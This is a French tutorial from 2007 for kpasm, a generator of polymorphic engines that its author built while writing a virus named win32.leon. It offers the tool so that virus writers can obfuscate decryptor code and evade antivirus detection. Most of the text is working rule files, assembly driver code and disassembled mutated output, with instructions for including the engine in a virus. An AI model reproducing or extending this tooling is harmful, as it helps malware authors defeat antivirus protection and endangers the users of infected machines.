



kaze : 
17 novembre 2007
Au cours du développement de win32.leon, je suis arrivé à l'étape fatidique du poly engine. Il m'en fallait un assez spécifique: capable de produire du code de qualité (i.e junk évolué et variations intelligentes) sans bug de préférence et qui supporte l'adressage mémoire. J'ai tout d'abord regardé les poly engines existant, du très simple au très compliqué.
Aucun ne m'a satisfait: le reproche commum que l'on pouvait faire à tous ces engines était surtout leur manque d'évolutivité et/ou
le manque de clarté du code. Pas envie d'y passer mes nuits non plus.
Le problème est que la plupart des codeurs essayent de proposer le poly engine le plus compact et performant possible. Et alors
qu'ils peuvent passer jusqu'à plusieurs mois à le développer, cela ne prend généralement qu'un jour ou deux aux AV pour le détecter.
En effet, la plupart de leurs efforts à porté sur le moteur en lui-même et non sur les règles de transformation du code.
De ce constat est née l'idée de kpasm. Kpasm est un petit outil pour faciliter le développement de poly engines. Ce n'est pas un outil révolutionnaire, ca facilite pas énormément la tâche (ils vous faudra toujours savoir comment produire du code binaire), mais au moins ca l'accélère et ça, c'est 'hachement cool.
Kpasm s'occupera de toute la partie moteur du poly engine, et vous laissera uniquement les transformations à écrire. Cela vous permettra de vous concentrer en premier sur la qualité du code généré et non celle du moteur. En contrepartie de ce gain de temps et de qualité, la moteur ne sera pas parfait forcément, et même assez gros. Mais vue l'évolution de la capacité des disque durs, c'est à mon avis un moinde mal.
Kpasm n'est donc pas un poly engine mais un générateur de poly engine. Et ça c'est beaucoup plus mieux, si si. Vous définissez le comportement de votre poly engine via le fichier de règles et hop, le poly engine est là.
Si vous voulez modifier le comportement du poly engine, pas besoin de reparcourir tout le code source, une simple modification du fichier .kpasm suivie d'une recompilation et le tour est joué.
Vous voulez montrer votre poly engine à quelqu'un d'autre ? Donnez-lui simplement le fichier de règles, et il aura un vision beaucoup plus intuitive et claire du poly qu'avec 50k de code source.
Comme vous pouvez le voir sur le schéma, kpasm prend en entrée un fichier .kpasm, et produit en sortie deux fichiers:
Pour générer ces deux fichiers, on appelle simplement kpasm en ligne de commande avec comme seul et unique paramètre le fichier contenant les règles:
kaze@Londinum:~/projets/virii/kpasm#kpasm test.kpasm poly_assembleur.asm & poly_defines.inc generated kpasm v1.0 Coded by kaze <kaze@lyua.org>
Muni de ces deux fichiers, il vous suffira d'inclure dans votre virus le fichier poly_assembleur.asm. Ensuite, pour polymorphiser vos pseudo-opcodes, il vous faudra appeler la méthode poly_asm:
Fonction poly_asm
Entrées :
edx : Taille maximale du code généré par pseudo-opcode.
esi : Adresse des pseudos-opcodes à polymorphiser.
edi : Adresse où écrire le code généré.
ecx : Adresse où sera situé le code généré au moment de son execution.
eax : Adresse d'un buffer de taille NB_CASES_MEMOIRE qui sera
recopié dans l'hôte. Peut être nul si la mémoire n'est
pas utilisée.
ebx : Virtual address de ce buffer dans l'hôte.
ebp : Delta offset
Sorties :
edx : Taille totale du code généré.
edi : Pointe juste après la dernière instruction générée.
Cette fonction va polymorphiser une suite de pseudo-opcodes terminée par le pseudo-opcode FIN_DECRYPTEUR. Ces pseudo-opcodes sont simplement les transformations que vous avez défini dans le fichier .kpasm. Nous allons y venir.
Je vais essayer à travers ce tutorial de vous initier à l'utilisation de kpasm. Chaque notion sera vue à travers un exemple, ce qui est toujours plus intuitif que de la doc pure et dure, du moins pour moi.
Il s'adresse néanmoins à un public ayant une certaine connaissance de l'assembleur, notamment en ce qui concerne le format des opcodes. Après, l'utilisation peut-être variée, il peut être utilisé pour :
Ca c'était pour le fond, en ce qui concerne la forme, kpasm peut être utilisé de deux façons :
Une seconde solution peut être de polymorphiser le code tout de même à l'exécution, de breaker juste après l'appel à poly_asm sous olly, puis de dumper l'exécutable (qui contient donc le code muté maintenant) en prenant bien soin de ne pas inclure le code du poly engine (poly_assembleur.asm) dans le dump.
Pour l'instant, la version actuelle bien que tout à fait fonctionnelle produit des engines assez volumineux. Vu la capacité des disques à l'heure actuelle, cela ne devrait pas toutefois poser de problème pour intégrer le poly engine à un virus. De plus, il ne devrait pas être trop difficile d'optimiser tout ça (au moins diviser par 2). Si je vois que du monde utilise kpasm, je m'y attelerai surement.
Pour commencer, nous allons nous familiariser avec l'utilisation de kpasm, et la structure d'un fichier .kpasm. Le premier exemple est vraiment trivial, mais avant de l'aborder, un peu de vocabulaire s'avère nécessaire. Trois concepts sont important dans kpasm : la transformation, la règle et le pseudo-code.
Une transformation possède également une taille, la taille du code généré par cette transformation. La taille minimale de la transformation est la taille du code généré par sa règle par défaut.
lorsqu'une transformation est appelée, une et une seule règle de la transformation est executée.
Une règle possède une probabilité d'apparition, représentée par un entier. La probabilité que, lors de l'appel à sa transformation, une règle rk soit choisie est égale à
. Autrement dit, c'est égale à son ``numéro'' sur la somme des numéros des règles de la transformation.
Néanmoins, cela n'est pas toujours vrai. Comme nous verrons dans les chapitres suivants, les règles peuvent avoir besoin de ressources, comme un registre libre ou une case mémoire libre. Si ces ressources ne sont pas disponibles, la règle ne sera pas traitée, peu importe sa probabilité.
Un pseudo-opcode est simplement un appel à la transformation correspondante avec les paramètres qui vont avec. Par exemple, si vous avez défini dans le fichier.kpasm une transformation :
mov_reg_cst(reg1:registre,cst:entier), un pseudo-opcode valide (déclaré dans votre programme) pourra être :
mov_reg_cst REG_EAX,0xDEADBEEF
Le paramètre esi (cf. figure 1.2) que vous passerez à la fonction poly_asm sera l'adresse d'une suite de ces pseudo-opcodes. Je rappelle, sait-on jamais, que les poly engines produits par kpasm polymorphisent des pseudo-opcodes et non du code binaire. Cela permet de simplifier grandement le poly engine et c'est beaucoup plus souple. Votre pseuso-code ne sera donc qu'une suite d'appels à des transformations définies dans le fichier de règles.
Pour compiler l'exemple, lancez le script compile.bat, qui produira l'executable main.exe. Vous verrez, comme pour tous les autres exemples, le fichier main.asm appelle simplement la fonction poly_asm sur des pseudo-opcodes d'exemple, puis execute le code généré. Je vous invite, à chaque fois, à jeter un coup d'oeil à ce pseudo-code, en plus du fichier de règles ex.kpasm.
Pour faciliter la visualisation, j'ai posé une int3 juste avant l'execution du code généré (C'est pour ça que l'exe plante quand on le lance directement). Lancez-donc le script compile et visualise.bat qui en plus de compiler lancera main.exe sous OllyDbg. Il ne vous reste plus qu'à appuyer sur F9 et observer le code généré.
Pour visualiser d'autres génération de code, appuyez de nouveau sur F9.
NB: pensez à desactiver la gestion des int3 sous olly pour pouvoir breaker. Si vous désirez compiler l'exemple à la main sans passer par le .bat, n'oubliez pas de rendre la section .code writeable (c'est ce que fait makeex.exe).
raz_registre(reg:registre)
{
2:
{
write16(0xC033 | reg << 11 | reg << 8) ; # xor reg,reg
}
1: DEFAUT
{
write16(0xC02B | reg << 11 | reg << 8); # sub reg,reg
}
}
Cette transformation possède deux règles:
pseudo_code:
raz_registre REG_EAX
raz_registre REG_EBX
raz_registre REG_ECX
raz_registre REG_EDX
raz_registre REG_ESI
raz_registre REG_EDI
FIN_DECRYPTEUR
include poly_assembleur.asm ;le poly engine, généré par kpasm
start:
xor ebp,ebp
lea esi,pseudo_code ;pseudo-code à polymorphiser
lea edi,code_genere ;où stoker le code généré
mov ecx,edi ;le code sera executé sur place
mov edx,10 ;taille max du code généré *par pseudo-opcode*
xor eax,eax ;pas d'utilisation de la mémoire
xor ebx,ebx ;pas d'utilisation de la mémoire
call poly_asm ;appel au poly engine
int 3 ;on s'arrete juste avant d'executer le
;code genere pour regarder un peu
;v-- execution du code genere:
code_genere:
db 4000 dup (090h)
jmp start
0040137F . 33C0 XOR EAX,EAX 00401381 . 33DB XOR EBX,EBX 00401383 . 33C9 XOR ECX,ECX 00401385 . 33D2 XOR EDX,EDX 00401387 . 2BF6 SUB ESI,ESI 00401389 . 2BFF SUB EDI,EDI
0040137F . 2BC0 SUB EAX,EAX 00401381 . 33DB XOR EBX,EBX 00401383 . 2BC9 SUB ECX,ECX 00401385 . 2BD2 SUB EDX,EDX 00401387 . 2BF6 SUB ESI,ESI 00401389 . 33FF XOR EDI,EDI
Voila, pas besoin de commenter je pense. Cet exemple a très peu d'intérêt et était juste là pour vous échauffer.
Vous aurez peut-être remarqué que les premières générations sont toujours identiques (i.e quand vous lancez deux fois compile et visualise.bat, les deux premières générations sont identiques). Cela est simplement dû au fait que le rand seed du poly engine est une valeur en dur, et non obtenue via GetTickCount() ou autre.
Si vous voulez changer ce comportement, introduisez simplement un nouveau randseed dans la variable poly_rand_seed avant l'appel à poly_asm.
Ici nous n'avons que deux règles: xor et sub. Aléatoirement (selon la proba de chaque règle), une des deux est tirée au sort. Le xor a deux chances sur trois de tomber, tandis que le sub une sur trois.
En règle générale ces données représentent l'opcode d'une instruction machine. Write peut écrire des données de trois types différents :
Vous devez peut-être vous dire que ca pue, c'est vrai quoi, faut quand même se taper tout le boulot, faut écrire le code binaire à coups de write et tout. C'est un peu vrai mais pas tout à fait.
Déjà, vous verrez dans les prochains chapitres, kpasm s'occupe quand même d'un paquet de trucs. Et ensuite, vous verrez une fois que vous aurez écrit les règles par défaut de la plupart des pseudo-opcodes, et bien ca ira très très vite, croyez-moi. Comme ça va plus vite, vous aurez alors plus envie de faire plein de règles super compliquées, et là j'aurai atteint mon objectif.
En règle générale, toutes les opérations arithmétiques, booléennes et binaires du C sont présentes dans kpasm.
Cette fois-ci, outre l'utilisation des registres, vous allez pouvoir vous frottez avec la récursivité, concepte qui fait la force de kpasm. Vous allez voir comment avec peu de règles on peut deja faire un poly un tantinet évolué. Quand je dis un tantinet c'est parce que l'exemple ne concerne que trois instructions (mov/add/sub), essayez d'imaginez avec beaucoup plus :)
Pour construire l'exemple, je ne vais pas rappeler comment compiler/visualiser le tout, cf. le chapitre précedent.
push_cst 0DEADBABEh
push_cst 0DEADBEEFh
FIN_DECRYPTEUR
NB: je n'ai aucun penchant morbide.
Le poly présenté est très très simple. Il se base uniquement sur le fait que mov reg,x peut être écrit:
push_cst(cst:entier)
{
6: {
mov_reg_cst(freereg0,cst);
push_reg(freereg0);
}
1: DEFAUT {
write8(0x68);
write32(cst);
}
}
push_reg(reg:registre)
{
1: DEFAUT {
write8(0x50 | reg);
}
}
pop_reg(reg:registre)
{
1: DEFAUT {
write8(0x58|reg);
}
}
mov_reg_cst(reg:registre,cst:entier)
{
6: {
mov_reg_cst(reg,rndint0);
add_reg_cst(reg,cst-rndint0);
}
6: {
mov_reg_cst(reg,rndint0);
sub_reg_cst(reg,rndint0-cst);
}
1: DEFAUT {
write8(0xB8|reg);
write32(cst);
}
}
add_reg_reg(regdest:registre,regsrc:registre)
{
1: DEFAUT {
write16(0xC003 | regdest<<11 | regsrc<<8);
}
}
add_reg_cst(reg:registre,cst:entier)
{
16: {
mov_reg_cst(freereg0,cst);
add_reg_reg(reg,freereg0);
}
1: DEFAUT {
if(reg==EAX)
{
/* L'opcode du x86 pour ``add eax,cst'' n'est pas le meme que
pour les autres registres. */
write8(0x05);
}
else
{
write16(0xC081 | (reg << 8));
}
write32(cst);
}
}
sub_reg_reg(regdest:registre,regsrc:registre)
{
1: DEFAUT {
write16(0xC02B | regdest << 11 | regsrc << 8);
}
}
sub_reg_cst(reg:registre,cst:entier)
{
16: {
mov_reg_cst(freereg0,cst);
sub_reg_reg(reg,freereg0);
}
1: DEFAUT {
if(reg==EAX)
{
/* L'opcode du x86 pour ``sub eax,cst'' n'est pas le meme que
pour les autres registres. */
write8(0x2D);
}
else
{
write16(0xE881 | reg<<8);
}
write32(cst);
}
}
Si vous voulez vous amusez, augmentez cette taille et regardez. Néanmoins, le code ne pourra croître indéfiniment pour la simple et bonne raison qu'au bout d'un moment tous les registres sont ``pris''. Nous verrons dans le prochain chapitre comment passer outre cette restriction.
00401912 . 68 BEBAADDE PUSH DEADBABE 00401917 . BB F08655DE MOV EBX,DE5586F0 0040191C . BF 33696887 MOV EDI,87686933 00401921 . B8 BBC2DAD6 MOV EAX,D6DAC2BB 00401926 . 03F8 ADD EDI,EAX 00401928 . 03DF ADD EBX,EDI 0040192A . BF 91C9CA81 MOV EDI,81CAC991 0040192F . BE 42142307 MOV ESI,7231442 00401934 . 2BFE SUB EDI,ESI 00401936 . BD F16B6123 MOV EBP,23616BF1 0040193B . 2BFD SUB EDI,EBP 0040193D . 03DF ADD EBX,EDI 0040193F . BA 35F3DD5C MOV EDX,5CDDF335 00401944 . 81EA 15069B05 SUB EDX,59B0615 0040194A . BF 590500B9 MOV EDI,B9000559 0040194F . 2BD7 SUB EDX,EDI 00401951 . 81EA 707E55CE SUB EDX,CE557E70 00401957 . 03DA ADD EBX,EDX 00401959 . BF 6535CE71 MOV EDI,71CE3565 0040195E . 81EF 1DCE66BA SUB EDI,BA66CE1D 00401964 . B8 6FE13D63 MOV EAX,633DE16F 00401969 . 03F8 ADD EDI,EAX 0040196B . BA 516ED082 MOV EDX,82D06E51 00401970 . B9 F6A57979 MOV ECX,7979A5F6 00401975 . 03D1 ADD EDX,ECX 00401977 . 2BFA SUB EDI,EDX 00401979 . B9 69F732D1 MOV ECX,D132F769 0040197E . B8 50456810 MOV EAX,10684550 00401983 . 2BC8 SUB ECX,EAX 00401985 . BE E793C56C MOV ESI,6CC593E7 0040198A . 81EE E2BC744F SUB ESI,4F74BCE2 00401990 . 2BCE SUB ECX,ESI 00401992 . 2BF9 SUB EDI,ECX 00401994 . 03DF ADD EBX,EDI 00401996 . 53 PUSH EBX
00401912 . B9 CB38089A MOV ECX,9A0838CB 00401917 . BA CFEB8646 MOV EDX,4686EBCF 0040191C . 03CA ADD ECX,EDX 0040191E . BE B7E780E5 MOV ESI,E580E7B7 00401923 . 81EE 71AF013A SUB ESI,3A01AF71 00401929 . 03CE ADD ECX,ESI 0040192B . BE 8D1A2285 MOV ESI,85221A8D 00401930 . BD AC4F7377 MOV EBP,77734FAC 00401935 . 2BF5 SUB ESI,EBP 00401937 . 2BCE SUB ECX,ESI 00401939 . BE AF1811BA MOV ESI,BA1118AF 0040193E . 81C6 0BFD29B0 ADD ESI,B029FD0B 00401944 . BB B0848C84 MOV EBX,848C84B0 00401949 . 03F3 ADD ESI,EBX 0040194B . BF 2D0391C7 MOV EDI,C791032D 00401950 . BA B19953DA MOV EDX,DA5399B1 00401955 . 03FA ADD EDI,EDX 00401957 . 2BF7 SUB ESI,EDI 00401959 . 2BCE SUB ECX,ESI 0040195B . BD 47F47F5A MOV EBP,5A7FF447 00401960 . 81C5 1378F1B7 ADD EBP,B7F17813 00401966 . BB B8F662A2 MOV EBX,A262F6B8 0040196B . 03EB ADD EBP,EBX 0040196D . BE 952C4625 MOV ESI,25462C95 00401972 . BA F44D9AFD MOV EDX,FD9A4DF4 00401977 . 2BF2 SUB ESI,EDX 00401979 . 2BEE SUB EBP,ESI 0040197B . BB CDB7BC5A MOV EBX,5ABCB7CD 00401980 . BA F891DFFA MOV EDX,FADF91F8 00401985 . B8 057C2BC0 MOV EAX,C02B7C05 0040198A . 2BD0 SUB EDX,EAX 0040198C . 2BDA SUB EBX,EDX 0040198E . 03EB ADD EBP,EBX 00401990 . 03CD ADD ECX,EBP 00401992 . 51 PUSH ECX 00401993 . BB EA9CAF8C MOV EBX,8CAF9CEA 00401998 . B8 30CF2B58 MOV EAX,582BCF30 0040199D . BE 75829642 MOV ESI,42968275 004019A2 . B9 F30C0D01 MOV ECX,10D0CF3 004019A7 . BD 1001857A MOV EBP,7A850110 004019AC . 03CD ADD ECX,EBP 004019AE . 2BF1 SUB ESI,ECX 004019B0 . 03C6 ADD EAX,ESI 004019B2 . 03D8 ADD EBX,EAX 004019B4 . BE 454E98AF MOV ESI,AF984E45 004019B9 . 81EE 18ED3E0E SUB ESI,0E3EED18 004019BF . B8 745CAB99 MOV EAX,99AB5C74 004019C4 . 03F0 ADD ESI,EAX 004019C6 . BA 7FA2D700 MOV EDX,0D7A27F 004019CB . BD 792A3EAF MOV EBP,AF3E2A79 004019D0 . 2BD5 SUB EDX,EBP 004019D2 . 2BF2 SUB ESI,EDX 004019D4 . 81EE FE23391C SUB ESI,1C3923FE 004019DA . 2BDE SUB EBX,ESI 004019DC . 53 PUSH EBXOn voit bien que les deux générations sont très différentes, et que les pushs sont bien polymorphisés, pas de doute. Tout ca avec très peu de règles.
Leur portée est locale à la règle et elles sont, dans une même règle, différentes les une des autres. Par exemple
si vous utilisez dans une règle freereg0 et freereg1, nous aurons forcément freereg0!=freereg1. De ce fait,
le x86 ne possedant que 7 registres, vous ne pouvez pas utiliser les 10 à la fois.
Un autre fait important: si vous utilisez dans une règle disons freereg0 et que celui-ci vaut disons EDX (edx est libre à ce moment là), aucune transformation que vous appelerez depuis la règle ne pourront utiliser EDX.
En effet, à partir du moment où vous l'utilisez, il n'est plus libre, logique. Par conséquent, vous êtes certains que du début de la règle jusqu'à la fin de celle-ci, le registre représenté par freeregx conservera sa valeur.
Vous verrez dans le chapitre suivant qu'une règle peut acceder à des registres non-libres via rndreg0 ... rndreg9. Dans ce cas là,
ce sera à la règle en question de s'assurer que la valeur du registre ne change pas (en produisant des opcodes genre push rndreg0 / ... / pop rndreg0
Que se passe-t-il quand plus aucun registre n'est libre me direz-vous ? Et bien dans ce cas là, le poly engine ne choisira pas les règles contenant des instruction de type freereg. Si toutes les règles utilisent des freereg, alors il selectionnera la règle par défaut.
On en déduit que la règle par défaut ne doit contenir aucune instruction de type freereg. C'est en gras, et c'est très important. Le cas échéant le poly engine rentrerait dans une boucle infinie.
De même que pour les freereg, la portée de ces variables est locale à la rêgle: du début à la fin de la rêgle, randint0 aura la même valeur. Par contre, dans une autre rêgle, randint0 pourra très bien en avoir une autre.
if(reg==EAX)
{
write8(0x05);
}
else
{
write16(0xC081 | (reg << 8));
}
Là encore, c'est comme du C. On note que l'on a accès à des valeurs prédéfinies pour les registres (EAX EBX ...).
C'est cool mais ca sert pas pour la production de code au même titre qu'un freereg (là c'est juste pour la comparaison). Si dans une règle vous voulez utiliser un registre libre spécifique (disons ecx), vous devrez utiliser FREE_ECX.
Pour résoudre ce problème nous allons introduire une nouvelle variable : randreg. Comme freereg, randreg permet de choisir aléatoirement un registre, si ce n'est que cette fois, le registre peut ne pas être libre. Voyons tout de suite un exemple.
pseudo_code:
mov_reg_cst REG_EAX 0DEADBEEFh
FIN_DECRYPTEUR
La principale différence se situe dans les règles add_reg_cst et sub_reg_cst. J'ai simplement rajouté une règle (celle de probabilité 2) qui peut être executée même si aucun registre n'est libre.
En effet, elle choisit un registre au hasard (même déjà pris) via la variable spéciale rndreg0, sauvegarde le contenu du registre
en générant un opcode ``push rndreg0'', utilise ce registre pour finalement restaurer sa valeur via un pop.
add_reg_cst(reg:registre,cst:entier)
{
3: {
mov_reg_cst(freereg0,cst);
add_reg_reg(reg,freereg0);
}
2: {
push_reg(rndreg0);
mov_reg_cst(rndreg0,cst);
add_reg_reg(reg,rndreg0);
pop_reg(rndreg0);
}
0: DEFAUT {
if(reg==EAX) {
write8(0x05);
}
else {
write16(0xC081 | (reg << 8));
}
write32(cst);
}
}
sub_reg_cst(reg:registre,cst:entier)
{
3: {
mov_reg_cst(freereg0,cst);
sub_reg_reg(reg,freereg0);
}
2: {
push_reg(rndreg0);
mov_reg_cst(rndreg0,cst);
sub_reg_reg(reg,rndreg0);
pop_reg(rndreg0);
}
0: DEFAUT {
if(reg==EAX) {
write8(0x2D);
}
else {
write16(0xE881 | reg<<8);
}
write32(cst);
}
}
Enfin, comme cela ne faisait pas beaucoup de changements pour un troisième exemple, j'ai complexifié un petit peu la règle push_reg.
Ce coup-ci nous avons deux alternatives: écrire directement l'opcode ou executer un sub esp,4 / mov [esp],reg.
Ce changement nous oblige à créer une nouvelle transformation pour gérer les opcodes du type mov [reg],reg. J'ai nommé cette transformation mov_regi_reg (regi pour reg indirect). Cette transformation a une seul règle: la production immédiate de l'opcode, pas de polymorphisme de ce côté là.
push_reg(reg:registre)
{
2:
{
sub_reg_cst(ESP,4);
mov_regi_reg(ESP,reg);
}
1: DEFAUT
{
write8(0x50 | reg);
}
}
mov_regi_reg(regdst:registre,regsrc:registre)
{
1: DEFAUT
{
if(regdst!=EBP && regdst!=ESP)
{
write16(0x0089 | regdst<<8 | regsrc<<11);
}
else
{
/* Pour ebp et esp l'opcode x86 est différent */
if(regdst==EBP)
{
write8(0x89);
write8(0x45 | regsrc<<3);
write8(0x00);
}
else
{
write8(0x89);
write8(0x04 | regsrc<<3);
write8(0x24);
}
}
}
}
00401B40 . B8 3A17DDF0 MOV EAX,F0DD173A 00401B45 . BB B66F78ED MOV EBX,ED786FB6 00401B4A . 03C3 ADD EAX,EBX 00401B4C . BB 65BD91EE MOV EBX,EE91BD65 00401B51 . 2BC3 SUB EAX,EBX 00401B53 . 53 PUSH EBX 00401B54 . BB AC1C184F MOV EBX,4F181CAC 00401B59 . 81C3 4C47DF3C ADD EBX,3CDF474C 00401B5F . 2BC3 SUB EAX,EBX 00401B61 . 5B POP EBX 00401B62 . BB 2AD20A3B MOV EBX,3B0AD22A 00401B67 . BA 43130605 MOV EDX,5061343 00401B6C . 2BDA SUB EBX,EDX 00401B6E . 56 PUSH ESI 00401B6F . BE 3F5D9BB5 MOV ESI,B59B5D3F 00401B74 . 2BDE SUB EBX,ESI 00401B76 . 5E POP ESI 00401B77 . 2BC3 SUB EAX,EBX 00401B79 . 57 PUSH EDI 00401B7A . BF 04000000 MOV EDI,4 00401B7F . 2BE7 SUB ESP,EDI 00401B81 . 5F POP EDI 00401B82 . 893C24 MOV DWORD PTR SS:[ESP],EDI 00401B85 . BF B748A51A MOV EDI,1AA548B7 00401B8A . 81C7 63C6A198 ADD EDI,98A1C663 00401B90 . 51 PUSH ECX 00401B91 . B9 FC1B4D9F MOV ECX,9F4D1BFC 00401B96 . 2BF9 SUB EDI,ECX 00401B98 . 59 POP ECX 00401B99 . 56 PUSH ESI 00401B9A . BE 516ED082 MOV ESI,82D06E51 00401B9F . 81EE 3736216A SUB ESI,6A213637 00401BA5 . 2BFE SUB EDI,ESI 00401BA7 . 5E POP ESI 00401BA8 . 03C7 ADD EAX,EDI 00401BAA . 5F POP EDI
00401B40 . B8 6254222E MOV EAX,2E225462 00401B45 . BA 635BB3B7 MOV EDX,B7B35B63 00401B4A . 2BC2 SUB EAX,EDX 00401B4C . BB 77B9C3EA MOV EBX,EAC3B977 00401B51 . 03C3 ADD EAX,EBX 00401B53 . B9 7AB3B909 MOV ECX,9B9B37A 00401B58 . BF AB4F95B8 MOV EDI,B8954FAB 00401B5D . 03CF ADD ECX,EDI 00401B5F . 2BC1 SUB EAX,ECX 00401B61 . BD 04000000 MOV EBP,4 00401B66 . 2BE5 SUB ESP,EBP 00401B68 . 891C24 MOV DWORD PTR SS:[ESP],EBX 00401B6B . BB EA9CAF8C MOV EBX,8CAF9CEA 00401B70 . 81C3 A243301F ADD EBX,1F3043A2 00401B76 . B9 3F1B7F4B MOV ECX,4B7F1B3F 00401B7B . 2BD9 SUB EBX,ECX 00401B7D . 03C3 ADD EAX,EBX 00401B7F . 5B POP EBX 00401B80 . BA F30C0D01 MOV EDX,10D0CF3 00401B85 . 55 PUSH EBP 00401B86 . BD 8E3408A6 MOV EBP,A608348E 00401B8B . 2BD5 SUB EDX,EBP 00401B8D . 5D POP EBP 00401B8E . 53 PUSH EBX 00401B8F . BB F0556E18 MOV EBX,186E55F0 00401B94 . 2BD3 SUB EDX,EBX 00401B96 . 5B POP EBX 00401B97 . 81EC 04000000 SUB ESP,4 00401B9D . 893C24 MOV DWORD PTR SS:[ESP],EDI 00401BA0 . BF 2EFA1CCA MOV EDI,CA1CFA2E 00401BA5 . BD 0C39E313 MOV EBP,13E3390C 00401BAA . 03FD ADD EDI,EBP 00401BAC . 03D7 ADD EDX,EDI 00401BAE . 5F POP EDI 00401BAF . 2BC2 SUB EAX,EDXMis à part que le code produit est potentiellement plus gros (de taille infinie même), selon la valeur que vous passez à edx dans poly_asm (cf. figure 1.2), le poly change très peu.
Tout comme freereg, randreg a une portée uniquement locale. De plus, le moteur de polymorphisme s'assure que, dans la limite du possible:
* add_reg_cst REG_EAX,100 produit : PUSH EAX MOV EAX,100 ADD EAX,EAX POP EAX
Attention, toute règle qui modifie un randreg doit impérativement restaurer sa valeur avant la fin de la règle. Cela peut être effectué très simplement en produisant des opcodes pushs et pop comme c'est le cas dans add_reg_cst et sub_reg_cst.
Néanmoins, le registre esp est une exception. Pour le poly engine, ce registre est toujours pris, par conséquent il n'a aucune chance d'être choisi par un quelconque freereg. Donc, vous pouvez l'utiliser directement via ESP sans vous soucier de le sauvegarder.
Rassurez-vous, kpasm est là et un mécanisme de gestion de labels a été implémenté dans ce but-là. Nous verrons également dans cet exemple comment définir des variables globales, chose qui s'avère souvent utile. Enfin, nous verrons comment réserver certaine ressources de manière permanente, par exemple réserver un registre pour le décrypteur en entier.
pseudo_code:
init REG_EBX 5 6 ; initialise tout le barda. On va mettre dans ebx 5*6 = 30
ajoute
dec_compteur
boucle
FIN_DECRYPTEUR
Le premier pseudo-opocode, qui appelle la transformation init, va réserver les différents registres qui seront utilisés dans la boucle, et les initialiser. Il réservera notamment:
Le pseudo-opcode suivant, ajoute, va simplement ajouter au registre ``dest'' la valeur entière ``a_ajouter''. Vous verrez, la transformation correspondante appelle simplement add_reg_cst.
Vient ensuite un appel à la transformation dec_compteur, qui comme son nom l'indique décrémentera le registre réservé sous le nom de ``compteur''.
Enfin, le pseudo-opocode boucle se chargera lui de sauter au label ``debut_boucle'' si compteur est différent de 0.
Pour plus d'information sur lock, veuillez vous réferrer au paragraphe Explications. En attendant,
init(reg:registre,mul1:entier,mul2:entier)
{
/* Ce registre ne sera pas libéré à la fin de la règle ! */
lock(reg,dest);
mov_reg_cst(reg,mul1);
/* Ce registre ne sera pas libéré à la fin de la règle ! */
lock(freereg0,compteur);
mov_reg_cst(freereg0,mul2-1);
lock(mul1,a_ajouter);
/* declare un label sur le debut
de la boucle */
label0;
lock(label0,debut_boucle);
}
ajoute()
{
add_reg_cst(dest,a_ajouter);
}
dec_compteur()
{
sub_reg_cst(compteur,1);
}
boucle()
{
cmp_reg_zero(compteur);
saut_nz(debut_boucle);
}
Voila, rien de très sorcier. La plupart des transformations appellées ont déjà été vues précédemment (comme add_reg_cst ou encore mov_reg_cst). Si vous ne vous en rappelez pas, n'hésitez pas à consulter le fichier ex.kpasm du répertorie exemple 4.
Nous allons nous pencher plutôt sur les nouvelles transformations, à savoir cmp_reg_zero et saut_nz.
cmp_reg_zero(reg:registre)
{
10:
{
raz_registre(freereg0);
cmp_reg_reg(freereg0,reg);
}
10:
{
raz_registre(freereg0);
cmp_reg_reg(reg,freereg0);
}
1: DEFAUT
{
if(reg!=EBP)
{
write16(0xF883 | reg << 8);
write8(0);
}
else
{
write16(0xFD83);
write8(0);
}
}
}
cmp_reg_reg(reg1:registre,reg2:registre)
{
1: DEFAUT
{
write16(0xC03B | reg1 <<11 | reg2 <<8);
}
}
Comme vous pouvez le voir, le cmp_reg_zero est pas très compliqué: soit on écrit directement l'opcode, soit on met un registre à zéro et on compare les deux registres. Théoriquement, vous ne devriez rien découvrir.
Interessons-nous plutôt à la transformation saut_nz.
saut_nz(location:adresse)
{
1: DEFAUT
{
label0;
/* Peut-on faire directement un jnz short ? */
if(((location-label0-2) < 127) && (location-label0-2 > 0-128))
{
write8(0x75);
write8(location-label0-2);
}
/* sinon on fait un jz qui saute au dessus d'un jmp */
else
{
write8(0x74);
write8(5);
write8(0xE9);
write32(location-label0-(5+2));
}
}
}
Cette transformation se charge de coder un saut de l'adresse label0 vers l'adresse location passée en paramètre si le zero flag est à 0.
Tout d'abord, elle regarde si un jmp short est possible. Si c'est le cas, elle écrit l'opcode du jnz short, sinon elle écrit l'opcode d'un jz short qui saute au dessus d'un jmp location. J'aurais pu faire un jmp near à la place, mais là ca complexifie un peu l'exemple et c'est mieux pour le tuto du coup.
Après rien de très surpenant, nous rencontrons de nouveau l'instruction label que nous allons détailler plus bas.
00401C26 . BB DEB2983C MOV EBX,3C98B2DE 00401C2B . BA 5E494657 MOV EDX,5746495E 00401C30 . 03DA ADD EBX,EDX 00401C32 . B9 76BFD8A8 MOV ECX,A8D8BF76 00401C37 . 2BD9 SUB EBX,ECX 00401C39 . BD C13C06EB MOV EBP,EB063CC1 00401C3E . 2BDD SUB EBX,EBP 00401C40 . B8 F1F51F1F MOV EAX,1F1FF5F1 00401C45 . BF 602C559D MOV EDI,9D552C60 00401C4A . 2BC7 SUB EAX,EDI 00401C4C . B9 0240F214 MOV ECX,14F24002 00401C51 . BF C02BCF0D MOV EDI,0DCF2BC0 00401C56 . 2BCF SUB ECX,EDI 00401C58 . 2BC1 SUB EAX,ECX 00401C5A . BF 202F3697 MOV EDI,97362F20 00401C5F . BA C9D202B8 MOV EDX,B802D2C9 00401C64 . 2BFA SUB EDI,EDX 00401C66 . BE 5FEE24A6 MOV ESI,A624EE5F 00401C6B . 03FE ADD EDI,ESI 00401C6D . 03C7 ADD EAX,EDI 00401C6F > BF 31C56E65 MOV EDI,656EC531 00401C74 . 81C7 34705F0C ADD EDI,0C5F7034 00401C7A . BE 1DCE66BA MOV ESI,BA66CE1D 00401C7F . 2BFE SUB EDI,ESI 00401C81 . B9 F1B249E3 MOV ECX,E349B2F1 00401C86 . BD 341AB19A MOV EBP,9AB11A34 00401C8B . 2BCD SUB ECX,EBP 00401C8D . 03F9 ADD EDI,ECX 00401C8F . 03DF ADD EBX,EDI 00401C91 . 2D 01000000 SUB EAX,1 00401C96 . 83F8 00 CMP EAX,0 00401C99 .^75 D4 JNZ SHORT main.00401C6FPas grand chose à dire, notre boucle est là, le code est raisonnablement obfusqué. On put voir qu'ici le registre choisi pour le compteur de boucle est eax.
